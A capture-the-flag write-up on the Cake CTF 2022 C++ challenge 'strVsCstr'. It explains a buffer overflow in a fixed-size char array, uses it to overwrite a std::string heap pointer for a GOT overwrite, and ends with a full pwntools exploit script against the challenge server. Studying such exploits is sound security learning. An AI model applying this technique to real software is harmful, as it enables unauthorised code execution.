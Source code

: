 ```yaml
---
layout: post
readtime: true
tags: [got-overwrite,partial-relro,cpp,string]
---
```

### Attachments : [chall](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/chall) , [main.cpp](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/main.cpp)
<br>

So, this was an interesting challenge on CPP pwn from Cake CTF. This was the first time I tried my hands on cpp pwning. 

First of all, let's have a look on the security features
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Partial RELRO and No PIE! Interesting.

Analyzing the source code of this challenge, we can easily spot a buffer overflow. 
```cpp

struct Test{

char* c_str() { return _c_str; }
...
private:
    char _c_str[0x20];
    std::string _str;
}

...
case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;
```
So, the program is reading data into `_c_str` without any size check which can be used to cause a buffer overflow. 

Now, let's drop the binary in gdb and add some random data.

<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_1.png"/>


<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_2.png"/>

Interesting. It is clear that `std::string` is stored in the heap and a pointer to that chunk is stored at `0x7fffffffdd20`, just after the buffer `_c_str`. User data will be read into that chunk whenever `std::cin>>test.str();` is called. We can use the buffer overflow on `_c_str` to replace the pointer to a heap chunk with a GOT address. After that, calling `std::cin>>test.str();` would read user supplied data into that particular GOT address. One suitable GOT entry is `_ZStlsIcSt11char_trait@GLIBCXX_3.4.21` i.e `0x404040`. This will be executed whenever `std::cout << "str: " << test.str() << std::endl;` is called i.e option 4.
Now, let's perform a GOT overwrite to make the pointer at `0x404040` point to `Test::call_me` i.e `0x4016de`.

```py
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./chall")
# p = elf.process()
# gdb.attach(p)
# 
p = remote("pwn1.2022.cakectf.com",9003)

def set_str(data):
	p.sendlineafter("choice: ","3")
	p.sendlineafter("str: ",data)

def set_cstr(data):
	p.sendlineafter("choice: ","1")
	p.sendlineafter("c_str: ",data)

def get_str():
	p.sendlineafter("choice: ","2")
	return p.recvline()[:-1]

def get_cstr():
	p.sendlineafter("choice: ","4")
	return p.recvline()[:-1]


set_str('0'*20)
set_cstr(b'a'*32+p64(0x404040))
set_str(p64(0x00000000004016de))
p.sendline('4')
p.interactive()
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_3.png"/>

### References
https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732
<br>
https://www.slideshare.net/AngelBoy1/pwning-in-c-basic